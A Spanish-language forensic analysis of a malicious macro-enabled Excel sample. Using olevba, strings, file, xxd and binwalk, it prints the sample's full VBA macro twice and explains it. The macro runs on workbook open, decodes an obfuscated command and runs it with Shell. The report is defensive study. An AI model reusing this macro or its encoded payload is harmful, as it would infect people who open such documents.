FILE: /home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T5/9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Dim asdas As String
Public Sub Workbook_Open()
'shell xas(ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý+€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�)
defnder
End Sub
Private Sub defnder()
asdas = xas("ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�", "XXWWWWWXXXXXXXWWWWWXXXXXW")
WQDX (asdas)
End Sub
Private Function WQDX(xs As String)
Shell xs
End Function
    Private Function xas(wqdqw As String, ByVal fqwdw As String)
        Dim i As Integer, c As Integer
        Dim strBuff As String
        If Len(fqwdw) Then
            For i = 1 To Len(wqdqw)
                c = Asc(Mid$(wqdqw, i, 1))
                c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
                strBuff = strBuff & Chr(c And &HFF)
            Next i
        Else
            strBuff = wqdqw
        End If
        xas = strBuff
    End Function
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
``` 


La herramienta identificó el fichero como un documento de tipo `OpenXML` y localizó macros dentro del proyecto V``BA almacenado en:

```bash
xl/vbaProject.bin
```

La salida muestra dos módulos principales:
| Módulo VBA         | Stream OLE         | Resultado                      |
| ------------------ | ------------------ | ------------------------------ |
| `ThisWorkbook.cls` | `VBA/ThisWorkbook` | Contiene código VBA relevante. |
| `Sheet1.cls`       | `VBA/Sheet1`       | Macro vacía.                   |

El módulo más relevante es `ThisWorkbook.cls`, donde se identifica la siguiente rutina de autoejecución:
```bash
Public Sub Workbook_Open()
    'shell xas(...)
    defnder
End Sub
```

La función `Workbook_Open()` se ejecuta automáticamente cuando el usuario abre el libro de `Excel`, siempre que las macros estén habilitadas. Este comportamiento es especialmente relevante desde el punto de vista del análisis de malware, ya que permite que el código malicioso se active sin necesidad de que el usuario ejecute manualmente una macro.

Dentro de `Workbook_Open()`, la macro invoca a la `función defnder()`:
```bash
Private Sub defnder()
    asdas = xas("...", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("...", "XXWWWWWXXXXXXXWWWWWXXXXXW")
    WQDX (asdas)
End Sub
```


Esta función construye una cadena en la variable `asdas` mediante la concatenación de dos llamadas a la función `xas()`. Las cadenas pasadas como primer argumento aparecen ofuscadas y el segundo argumento actúa como clave o valor auxiliar utilizado para la decodificación:
```bash
XXWWWWWXXXXXXXWWWWWXXXXXW
```

La función `xas()` implementa una rutina de desofuscación personalizada:
```bash
Private Function xas(wqdqw As String, ByVal fqwdw As String)
    Dim i As Integer, c As Integer
    Dim strBuff As String
    If Len(fqwdw) Then
        For i = 1 To Len(wqdqw)
            c = Asc(Mid$(wqdqw, i, 1))
            c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
            strBuff = strBuff & Chr(c And &HFF)
        Next i
    Else
        strBuff = wqdqw
    End If
    xas = strBuff
End Function
```

Esta función recorre carácter a carácter la cadena ofuscada, obtiene su valor `ASCII` mediante `Asc()`, le resta el valor `ASCII` de un carácter de la clave y reconstruye el resultado mediante `Chr()`. El uso de `c And &HFF` permite limitar el resultado al rango de un byte. Este patrón indica una técnica de ofuscación sencilla basada en una operación aritmética sobre caracteres, cuyo objetivo es ocultar el comando real dentro del código `VBA`.

Una vez reconstruida la cadena, la macro llama a la `función WQDX()`:
```bash
Private Function WQDX(xs As String)
    Shell xs
End Function
```

Esta función recibe como argumento la cadena previamente desofuscada y la ejecuta mediante `Shell`. Este punto es especialmente crítico, ya que `Shell` permite lanzar comandos del sistema o ejecutar programas desde la macro.

Este flujo confirma que la macro está diseñada para ejecutarse automáticamente al abrir el documento, reconstruir un comando ofuscado en tiempo de ejecución y ejecutarlo mediante `Shell`.

| Tipo         | Keyword         | Descripción                                                                 |
| ------------ | --------------- | --------------------------------------------------------------------------- |
| `AutoExec`   | `Workbook_Open` | Se ejecuta automáticamente al abrir el libro de Excel.                      |
| `Suspicious` | `shell`         | Puede ejecutar un archivo o comando del sistema.                            |
| `Suspicious` | `Chr`           | Puede utilizarse para reconstruir cadenas ofuscadas.                        |
| `Suspicious` | `Hex Strings`   | Se detectan cadenas codificadas que pueden usarse para ocultar información. |


El indicador más importante es `Workbook_Open`, ya que demuestra la existencia de una rutina de autoejecución. Combinado con el uso de `Shell`, este comportamiento es altamente sospechoso y compatible con un documento malicioso que intenta ejecutar comandos en el sistema de la víctima cuando se habilitan las macros.

El módulo `Sheet1.cls`, por el contrario, aparece vacío:
```bash
VBA MACRO Sheet1.cls
(empty macro)
```

Esto sugiere que la lógica principal de la muestra no se encuentra asociada a la hoja de cálculo, sino al objeto `ThisWorkbook`, lo cual tiene sentido desde el punto de vista operativo porque permite enganchar la ejecución al evento de apertura del documento.

En esta fase aún no se ha recuperado de forma legible el comando final ejecutado por `Shell`, ya que se encuentra ofuscado mediante la `función xas()`. Por tanto, el siguiente paso del análisis deberá consistir en desofuscar las cadenas utilizadas por la macro para reconstruir el contenido real de la variable asdas. Esto permitirá determinar si el comando ejecutado invoca `cmd.exe`, `powershell.exe`, descarga un payload, contacta con un servidor externo o ejecuta algún binario ya presente en el sistema.

En conclusión, el análisis de macros `VBA` confirma que la muestra contiene código malicioso o, como mínimo, altamente sospechoso. La combinación de autoejecución mediante `Workbook_Open`, desofuscación de cadenas y ejecución mediante `Shell` constituye un patrón típico de documentos `Office` utilizados como vector inicial de infección.


### **B) Análisis directo del proyecto VBA extraído**
Después de analizar el documento `.xlsm` completo con `olevba`, se realizó una segunda comprobación directamente sobre el fichero `vbaProject.bin` extraído previamente del contenedor `OOXML`. Este paso permite validar que el proyecto `VBA` identificado dentro del documento puede ser analizado de forma independiente y que la extracción del paquete `OOXML` se realizó correctamente.

El comando ejecutado fue el siguiente:
```
└─$ olevba xlsm_extract/xl/vbaProject.bin 
olevba 0.60.2 on Python 3.13.12 - http://decalage.info/python/oletools
===============================================================================
FILE: xlsm_extract/xl/vbaProject.bin
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xlsm_extract/xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Dim asdas As String
Public Sub Workbook_Open()
'shell xas(ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý+€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�)
defnder
End Sub
Private Sub defnder()
asdas = xas("ÈÆμÉÊÀ½ÄÄx€Æ¼Î„ƹ½»ÌxªÑË˼ą¥½Ì†¯½º›ÃÀ¼ÅË�†œÇÏÅÄǸ»�Àý", "XXWWWWWXXXXXXXWWWWWXXXXXW") + xas("€~¿ËËÇ’‡‡‰��†‰Š�…‰ŒŠ†‰‘‹‡ŠŠ�ˆ�ˆ‰‡ËÀ¹ÏÆ…¼Ï¼~„|½ÆΑ™ÈÇ›¸Ë¸ƒ´Ç¢Ÿ™Ï…¼Ï¼�“€¦¼Ï…¦¹Á¼ºÌx…»ÇÅxª¿¼ÃÆ™ÈÈÄÀ»¹ËÀÆÅ€†«À½ÄÄ�ϼºÌ˽€|½ÆÍ’™ÇÇ›¸Ë¹ƒ´Ç¢Ÿ˜Ï…¼Ï½�", "XXWWWWWXXXXXXXWWWWWXXXXXW")
WQDX (asdas)
End Sub
Private Function WQDX(xs As String)
Shell xs
End Function
    Private Function xas(wqdqw As String, ByVal fqwdw As String)
        Dim i As Integer, c As Integer
        Dim strBuff As String
        If Len(fqwdw) Then
            For i = 1 To Len(wqdqw)
                c = Asc(Mid$(wqdqw, i, 1))
                c = c - Asc(Mid$(fqwdw, (i Mod Len(fqwdw)) + 1, 1))
                strBuff = strBuff & Chr(c And &HFF)
            Next i
        Else
            strBuff = wqdqw
        End If
        xas = strBuff
    End Function
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xlsm_extract/xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
``` 

A diferencia del análisis inicial sobre el fichero `.xlsm`, en este caso `olevba` identifica el archivo como un objeto `OLE`:
```bash
FILE: xlsm_extract/xl/vbaProject.bin
Type: OLE
```

Este resultado es coherente, ya que `vbaProject.bin` es el contenedor interno donde `Excel` almacena el proyecto `VBA` dentro de un documento `.xlsm`. Mientras que el archivo principal se identifica como `OpenXML`, el componente extraído se analiza como un objeto `OLE` que contiene los streams `VBA` reales.

La salida confirma los mismos módulos ya detectados en el análisis del documento completo:
| Módulo VBA         | Stream OLE         | Observación                                |
| ------------------ | ------------------ | ------------------------------------------ |
| `ThisWorkbook.cls` | `VBA/ThisWorkbook` | Contiene la lógica principal de ejecución. |
| `Sheet1.cls`       | `VBA/Sheet1`       | No contiene código relevante.              |


El hecho de obtener el mismo resultado al analizar directamente` vbaProject.bin` confirma que la macro maliciosa se encuentra almacenada en el proyecto `VBA` embebido del documento y no en otro componente externo del paquete `OOXML`.

El módulo `ThisWorkbook.cls` vuelve a mostrar la rutina `Workbook_Open()`, la función auxiliar `defnder()`, la función de ejecución `WQDX()` y la rutina de desofuscación `xas()`. No obstante, en este segundo análisis lo relevante no es repetir el flujo de ejecución ya descrito, sino confirmar que:
- El código `VBA` se encuentra íntegramente dentro de `xl/vbaProject.bin`.
- No se observan nuevos módulos VBA adicionales.
- `Sheet1.cls` permanece vacío.
- La lógica principal está asociada al objeto `ThisWorkbook`.
- Los indicadores detectados por `olevba` son consistentes con el análisis inicial.


La herramienta vuelve a marcar los mismos indicadores de interés:
| Tipo         | Keyword         | Interpretación                                                    |
| ------------ | --------------- | ----------------------------------------------------------------- |
| `AutoExec`   | `Workbook_Open` | Confirma la existencia de ejecución automática al abrir el libro. |
| `Suspicious` | `shell`         | Confirma capacidad de ejecución de comandos del sistema.          |
| `Suspicious` | `Chr`           | Refuerza la presencia de una rutina de reconstrucción de cadenas. |
| `Suspicious` | `Hex Strings`   | Indica la existencia de cadenas codificadas u ofuscadas.          |

Un detalle destacable es que el código contiene una línea comentada dentro de `Workbook_Open()`:
```bash
'shell xas(...)
```

Al estar precedida por una comilla simple, esta línea no se ejecuta. Sin embargo, su presencia resulta relevante porque muestra una posible versión anterior o alternativa del mecanismo de ejecución, en la que el comando ofuscado se habría pasado directamente a `Shell`. En la versión activa del código, la ejecución se realiza de forma indirecta mediante la llamada a `defnder()` y posteriormente a `WQDX(asdas)`.

Por tanto, este segundo análisis sirve como verificación cruzada del contenido `VBA` extraído. No aporta nuevos módulos ni nuevas macros respecto al análisis inicial del `.xlsm`, pero confirma que el comportamiento sospechoso reside en el proyecto `VBA` embebido y que la muestra no depende, al menos en esta fase, de macros ocultas en otros streams del documento.

En conclusión, el análisis directo de `vbaProject.bin` valida los hallazgos previos y refuerza la hipótesis de que el documento actúa como dropper o lanzador inicial mediante macros `VBA`. La siguiente fase deberá centrarse en desofuscar las cadenas procesadas por la `función xas()` para obtener el comando final que se entrega a `Shell`.


Guardamos el código fuente visible para compararlo:


# **5. Detección de ofuscación**
Tras identificar la presencia de macros VBA y observar que el código extraído contiene cadenas no legibles procesadas mediante una función personalizada de descifrado, se inicia una fase específica orientada a detectar indicios de ofuscación.

La ofuscación es una técnica habitual en documentos ofimáticos maliciosos. Su objetivo es dificultar el análisis estático, ocultar comandos, retrasar la detección por parte de motores antivirus y evitar que indicadores evidentes, como `URLs`, rutas del sistema, comandos de `PowerShell` o llamadas a binarios del sistema, aparezcan directamente en texto claro dentro del documento.

En esta muestra ya se han observado indicios relevantes de ofuscación en la macro VBA, concretamente en la `función xas()`, que reconstruye cadenas carácter a carácter mediante operaciones aritméticas con `Asc()` y `Chr()`. Por tanto, el análisis de cadenas del fichero completo se utiliza como una primera aproximación para localizar texto embebido, rutas internas, nombres de componentes, posibles indicadores de compromiso y zonas con alta presencia de datos no legibles.

## **5.1 Búsqueda inicial de indicios**
Como primer paso, se ejecutó la herramienta strings sobre el documento `.xlsm `completo. Esta utilidad extrae secuencias de caracteres imprimibles presentes en un fichero, lo que permite identificar de forma rápida cadenas potencialmente relevantes sin ejecutar la muestra.

El comando utilizado fue el siguiente:
```
└─$ strings -a "$malwareXLSM" > strings.txt 
```

La opción `-a` fuerza el análisis de todo el fichero, independientemente de su formato interno. La salida se redirigió al fichero: [strings.txt]xxxxxxxxxxxxxxxxxx


El resultado permite observar varias categorías de cadenas. En primer lugar, aparecen rutas internas propias del paquete `OOXML`:
```bash
[Content_Types].xml
_rels/.rels
xl/_rels/workbook.xml.rels
xl/workbook.xml
xl/worksheets/sheet1.xml
xl/vbaProject.bin
xl/media/image1.jpg
docProps/core.xml
docProps/app.xml
```

Estas cadenas son coherentes con la estructura ya identificada previamente mediante `unzip` y `find`. Su presencia confirma nuevamente que el documento es un contenedor `Office Open XML` y que incluye tanto un proyecto `VBA` como un recurso multimedia incrustado.

También se observan múltiples apariciones de la cadena:
```bash
PK
```

Este valor es característico de ficheros `ZIP`, ya que los documentos `OOXML` están empaquetados internamente como archivos comprimidos. Por tanto, estas entradas no constituyen por sí mismas un indicador malicioso, sino una confirmación adicional del formato del documento.

Un aspecto relevante de la salida de strings es la gran cantidad de cadenas cortas, fragmentadas y aparentemente aleatorias, por ejemplo:
```bash
%/ggfg=
m#^_
U# %g5
a`K^A
Gjv}*%
K2|R
```

Este tipo de resultado puede deberse a varias causas. En primer lugar, el documento `.xlsm` contiene datos comprimidos, por lo que strings aplicado directamente sobre el fichero completo puede extraer fragmentos residuales de los flujos `ZIP` sin que tengan significado semántico claro. En segundo lugar, también puede haber cadenas procedentes de recursos binarios, como imágenes incrustadas o el propio proyecto `VBA` compilado. Por tanto, no todas estas cadenas deben interpretarse automáticamente como ofuscación maliciosa.

Sin embargo, en el contexto de esta muestra, la abundancia de cadenas no legibles sí resulta coherente con los hallazgos previos: el documento contiene macros y el código `VBA` visible reconstruye un comando oculto mediante una rutina personalizada. Por ello, la salida de strings refuerza la necesidad de analizar por separado los componentes más relevantes, especialmente:
| Componente                   | Motivo de análisis                                                            |
| ---------------------------- | ----------------------------------------------------------------------------- |
| `xl/vbaProject.bin`          | Contiene el proyecto VBA y las cadenas ofuscadas utilizadas por la macro.     |
| `xl/media/image1.jpg`        | Recurso gráfico incrustado, posiblemente utilizado como señuelo visual.       |
| `xl/_rels/workbook.xml.rels` | Define relaciones internas del libro, incluida la referencia al proyecto VBA. |
| `xl/worksheets/sheet1.xml`   | Puede contener contenido visible o referencias internas de la hoja.           |


También llama la atención que, dentro de la zona asociada al recurso `xl/media/image1.jpg`, aparecen cadenas como:
```bash
IHDR
sRGB
gAMA
pHYs
IDAT
IEND
```

Estas cadenas son típicas de imágenes `PNG`, aunque el recurso aparece nombrado como `image1.jpg`. Este detalle debe verificarse con herramientas como `file`, ya que podría tratarse de una imagen con extensión no coincidente, un recurso convertido por `Office` o simplemente un resultado derivado del análisis del contenedor completo. En cualquier caso, conviene revisar este recurso de forma independiente.

La búsqueda inicial con strings no muestra de forma directa indicadores evidentes en texto claro, como URLs externas, direcciones I``P, comandos `cmd.exe`, `powershell.exe`, rutas `AppData`, nombres de ejecutables descargados o dominios de comunicación. Esta ausencia es relevante, ya que sugiere que el comando final no está almacenado directamente en texto plano dentro del documento, sino que probablemente se reconstruye dinámicamente en tiempo de ejecución mediante la función de desofuscación observada en la macro.

Por tanto, el análisis inicial de cadenas permite extraer tres conclusiones principales:
| Hallazgo                                         | Interpretación                                                                               |
| ------------------------------------------------ | -------------------------------------------------------------------------------------------- |
| Presencia de rutas internas OOXML                | Confirma la estructura del documento y sus componentes internos.                             |
| Presencia de `xl/vbaProject.bin`                 | Refuerza que el proyecto VBA es el principal elemento a analizar.                            |
| Abundancia de cadenas no legibles                | Compatible con datos comprimidos/binarios y con el uso de ofuscación.                        |
| Ausencia de IOCs claros en texto plano           | Sugiere que los indicadores relevantes pueden estar ofuscados o reconstruidos dinámicamente. |
| Presencia de cadenas tipo `IHDR`, `IDAT`, `IEND` | Recomienda verificar el recurso multimedia incrustado con herramientas específicas.          |


En conclusión, la ejecución de strings sobre el fichero completo proporciona una visión preliminar útil, pero limitada. Al tratarse de un documento `OOXML` comprimido, muchos resultados proceden de datos empaquetados o binarios. La evidencia más relevante de ofuscación no se encuentra en cadenas visibles del documento completo, sino en la macro `VBA` previamente identificada, donde se observa una función dedicada a reconstruir cadenas antes de ejecutarlas mediante `Shell`.

Por ello, el siguiente paso del análisis debe centrarse en aplicar strings y búsquedas específicas sobre `xl/vbaProject.bin`, así como en desofuscar manualmente las cadenas procesadas por la `función xas()`.


## **5.2 Cabeceras y datos embebidos**
Tras la búsqueda inicial de cadenas sobre el fichero completo, se revisaron las cabeceras y fragmentos de datos embebidos detectados en la salida de `strings`. Este análisis permite distinguir entre cadenas realmente relevantes para el comportamiento de la muestra y cadenas procedentes de la propia estructura interna del documento, de datos comprimidos o de recursos binarios incrustados.

En primer lugar, la salida de strings muestra múltiples referencias a componentes internos del documento `Office Open XML`, como:
```bash
[Content_Types].xml
_rels/.rels
xl/workbook.xml
xl/worksheets/sheet1.xml
xl/vbaProject.bin
xl/media/image1.jpg
docProps/core.xml
docProps/app.xml
```

Estas entradas son coherentes con la estructura de un documento `.xlsm`, ya que este tipo de fichero funciona internamente como un paquete `ZIP` que contiene ficheros `XML`, relaciones, propiedades, hojas de cálculo, recursos multimedia y el proyecto `VBA`. Por tanto, estas cadenas no son maliciosas por sí mismas, sino que sirven para confirmar la organización interna del documento.

También se identifican entradas asociadas a la cabecera `ZIP`, especialmente la cadena:
```bash
PK
```

La presencia de `PK` es esperable en documentos `OOXML`, ya que los formatos modernos de `Office` se almacenan como contenedores comprimidos. En este contexto, `PK` no representa un indicador de compromiso, sino una cabecera característica del formato `ZIP` utilizado por Excel para empaquetar el contenido del documento.

Uno de los hallazgos más relevantes aparece en la zona asociada al recurso gráfico incrustado `xl/media/image1.jpg`. En la salida de cadenas se observan valores como:
```bash
IHDR
sRGB
gAMA
pHYs
IDAT
IEND
```

Estas cadenas son características de ficheros `PNG`, donde `IHDR` identifica la cabecera principal de imagen, `IDAT` contiene datos comprimidos de imagen e `IEND` marca el final del fichero. Este detalle resulta llamativo porque el recurso aparece almacenado con el nombre `image1.jpg`, aunque las cadenas detectadas sugieren una estructura compatible con P``NG.

Este comportamiento no implica necesariamente actividad maliciosa. Puede deberse a una conversión interna realizada por `Microsoft Office`, a un recurso gráfico con extensión no coincidente o a la forma en la que el documento almacena imágenes incrustadas. No obstante, desde el punto de vista forense conviene verificar el tipo real del fichero extraído mediante herramientas específicas:
```bash
file xlsm_extract/xl/media/image1.jpg
```

También puede revisarse su cabecera en hexadecimal:

```bash
xxd -l 32 xlsm_extract/xl/media/image1.jpg
```

Si el fichero comenzara por una firma como `89 50 4E 47`, se confirmaría que se trata realmente de una imagen `PNG` aunque tenga extensión `.jpg`. En cambio, si comenzara por `FF D8 FF`, correspondería a una imagen `JPEG`. Esta comprobación es importante para documentar correctamente los recursos embebidos y detectar posibles inconsistencias en el empaquetado.

Además del recurso gráfico, la presencia de `xl/vbaProject.bin` dentro de las cadenas extraídas confirma que el documento contiene un proyecto `VBA` embebido. Este componente es el principal candidato a contener datos ofuscados, ya que en apartados anteriores se ha identificado una macro con cadenas no legibles y una función de reconstrucción basada en operaciones con `Asc()` y `Chr()`.

Para continuar el análisis de datos embebidos y reducir ruido, resulta recomendable aplicar strings directamente sobre los elementos extraídos, en lugar de hacerlo únicamente sobre el `.xlsm `completo:
```bash
strings -a xlsm_extract/xl/vbaProject.bin > strings-vbaProject.txt
strings -a xlsm_extract/xl/media/image1.jpg > strings-image1.txt
```

Este enfoque permite separar las cadenas procedentes del proyecto `VBA` de las cadenas pertenecientes al recurso gráfico. De esta forma, se evita mezclar datos comprimidos, cabeceras de imagen y posibles cadenas maliciosas dentro de una única salida.

A partir de la revisión inicial, los principales elementos embebidos detectados son los siguientes:
| Elemento detectado             | Ubicación                        | Interpretación                                                                                   |
| ------------------------------ | -------------------------------- | ------------------------------------------------------------------------------------------------ |
| Cabeceras `PK`                 | Documento `.xlsm` completo       | Indicador esperado de contenedor ZIP/OOXML.                                                      |
| Rutas internas OOXML           | Estructura del documento         | Confirman los componentes internos del paquete Office.                                           |
| `xl/vbaProject.bin`            | Directorio `xl/`                 | Proyecto VBA embebido; principal foco del análisis de ofuscación.                                |
| `xl/media/image1.jpg`          | Directorio `xl/media/`           | Imagen incrustada, posiblemente usada como señuelo visual.                                       |
| Cadenas `IHDR`, `IDAT`, `IEND` | Zona asociada al recurso gráfico | Sugieren una estructura compatible con imagen PNG, pendiente de verificación con `file` o `xxd`. |

En conclusión, la revisión de cabeceras y datos embebidos permite diferenciar entre elementos normales del formato `OOXML` y elementos que requieren análisis adicional. Las cabeceras `PK` y las rutas internas son esperables en un documento `.xlsm`, mientras que `vbaProject.bin` confirma la presencia de macros y `image1.jpg` representa un recurso incrustado que debe ser verificado de forma independiente.

La evidencia más relevante para la detección de ofuscación sigue concentrándose en el proyecto `VBA`, no en las cabeceras del contenedor. Por tanto, el análisis posterior debe centrarse en extraer cadenas directamente de `vbaProject.bin` y en desofuscar manualmente las cadenas procesadas por la `función xas()`, ya que es ahí donde probablemente se reconstruye el comando final ejecutado mediante `Shell`.

-----

Tras detectar en la salida de strings cadenas características de imágenes `PNG`, como `IHDR`, `IDAT` e `IEND`, se verificó el tipo real del recurso gráfico incrustado mediante el comando `file`:
```bash
file xlsm_extract/xl/media/image1.jpg
```

El resultado obtenido fue:

```bash
xlsm_extract/xl/media/image1.jpg: PNG image data, 1243 x 610, 8-bit/color RGBA, non-interlaced
```
Aunque el recurso aparece almacenado dentro del documento con el nombre `image1.jpg,` la herramienta `file` identifica claramente el contenido como una imagen `PNG` de resolución `1243 x 610 píxeles`, con profundidad de color de `8 bits` por canal y canal alfa `RGBA`.

Para confirmar esta identificación, se revisaron los primeros bytes del fichero mediante `xxd`:
```bash
xxd -l 32 xlsm_extract/xl/media/image1.jpg
```

La salida obtenida fue:

```bash
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 04db 0000 0262 0806 0000 00fe 00c4  .......b........
```

Los primeros bytes `89 50 4E 47 0D 0A 1A 0A` corresponden a la firma estándar de un fichero `PNG`. Además, aparece la cadena `IHDR`, que identifica el `chunk` inicial obligatorio de este tipo de imagen.

Este resultado confirma que existe una discrepancia entre la extensión del recurso incrustado y su formato real: el archivo se denomina `image1.jpg,` pero internamente es una imagen `PNG`. Esta inconsistencia no implica necesariamente comportamiento malicioso, ya que puede deberse a la forma en la que Microsoft Office almacena o renombra recursos multimedia dentro del paquete `OOXML`. No obstante, desde el punto de vista forense debe documentarse, ya que los recursos gráficos en documentos maliciosos suelen utilizarse como señuelo visual para inducir al usuario a habilitar macros o contenido activo.

Por tanto, el fichero `xlsm_extract/xl/media/image1.jpg` debe considerarse un recurso embebido de interés secundario. No parece contener código ejecutable, pero sí puede formar parte de la estrategia de ingeniería social del documento, por lo que conviene revisarlo visualmente y documentar su contenido en el apartado correspondiente.


## **5.3 Comprobación de ofuscación avanzada**

Para complementar la búsqueda inicial de cadenas y comprobar si la muestra contiene datos embebidos adicionales, payloads ocultos o estructuras concatenadas fuera del formato esperado, se utilizó la herramienta binwalk. Esta utilidad permite identificar firmas de ficheros, cabeceras y bloques de datos reconocibles dentro de un archivo binario.
```
└─$ binwalk 9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, at least v2.0 to extract, compressed size: 395, uncompressed size: 1257, name: [Content_Types].xml
964           0x3C4           Zip archive data, at least v2.0 to extract, compressed size: 244, uncompressed size: 588, name: _rels/.rels
1769          0x6E9           Zip archive data, at least v2.0 to extract, compressed size: 260, uncompressed size: 679, name: xl/_rels/workbook.xml.rels
2349          0x92D           Zip archive data, at least v2.0 to extract, compressed size: 612, uncompressed size: 1241, name: xl/workbook.xml
3006          0xBBE           Zip archive data, at least v2.0 to extract, compressed size: 559, uncompressed size: 1141, name: xl/drawings/drawing1.xml
3619          0xE23           Zip archive data, at least v2.0 to extract, compressed size: 190, uncompressed size: 292, name: xl/drawings/_rels/drawing1.xml.rels
3874          0xF22           Zip archive data, at least v2.0 to extract, compressed size: 189, uncompressed size: 299, name: xl/worksheets/_rels/sheet1.xml.rels
4128          0x1020          Zip archive data, at least v2.0 to extract, compressed size: 1683, uncompressed size: 6796, name: xl/theme/theme1.xml
5860          0x16E4          Zip archive data, at least v2.0 to extract, compressed size: 662, uncompressed size: 1540, name: xl/styles.xml
6565          0x19A5          Zip archive data, at least v2.0 to extract, compressed size: 393, uncompressed size: 694, name: xl/worksheets/sheet1.xml
7012          0x1B64          Zip archive data, at least v2.0 to extract, compressed size: 5164, uncompressed size: 14336, name: xl/vbaProject.bin
12223         0x2FBF          Zip archive data, at least v1.0 to extract, compressed size: 405384, uncompressed size: 405384, name: xl/media/image1.jpg
417656        0x65F78         Zip archive data, at least v2.0 to extract, compressed size: 321, uncompressed size: 617, name: docProps/core.xml
418288        0x661F0         Zip archive data, at least v2.0 to extract, compressed size: 393, uncompressed size: 785, name: docProps/app.xml
419925        0x66855         End of Zip archive, footer length: 22
```
El elemento más relevante desde el punto de vista del análisis de malware es:

```bash
xl/vbaProject.bin
```

binwalk lo detecta en el offset decimal `7012`, equivalente a `0x1B64`, con un tamaño comprimido de 5164 bytes y un tamaño sin comprimir de `14336` bytes. Este componente contiene el proyecto `VBA` embebido y constituye el foco principal del análisis de ofuscación, ya que en apartados anteriores se ha comprobado que contiene una macro con autoejecución, cadenas ofuscadas y ejecución mediante `Shell`.

También destaca el recurso:

```bash
xl/media/image1.jpg
```

Este aparece en el offset decimal `12223`, equivalente a `0x2FBF`, con un tamaño de `405384` bytes tanto comprimido como sin comprimir. El hecho de que ambos tamaños coincidan indica que el recurso se almacena sin compresión adicional dentro del contenedor `ZIP`. En apartados anteriores se verificó además que, aunque el fichero se denomina `image1.jpg`, su contenido real corresponde a una imagen PNG. Esta discrepancia debe documentarse, aunque no implica necesariamente ofuscación maliciosa.


